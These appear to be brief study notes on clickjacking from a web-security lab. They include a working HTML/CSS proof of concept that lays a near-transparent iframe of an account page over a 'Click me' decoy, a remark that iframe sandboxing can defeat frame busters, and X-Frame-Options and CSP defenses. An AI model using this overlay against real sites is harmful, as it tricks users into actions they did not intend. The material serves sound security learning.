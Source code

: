 Click Jacking:

	Target website iframe is positioned within the browser so that there is a perscie overlap of the target action with the decoy website using appropriate width and height position values. Absolute and relative values are used to ensure that the target website accurately overlaps the decoy regardless of screen size, opacity value is defined as 0.0 so that the iframe content is transparent

```<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:relative;
       top: 600px;
       left: 60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://aca61f401fcdc06a80fe1e5300ba00df.web-security-academy.net/my-account"></iframe>```

modern browser use frame buster scripts to find invisble frames and other potentaial clickjacking, but most of it can be bypassed by using iframe sandbox feature, that allows scripts and forms with getting caught

X-Frame-options: deny or same-origin or site 

can tell the browser if it has to include iframes

content-security-policy can also be used as another layer of protection



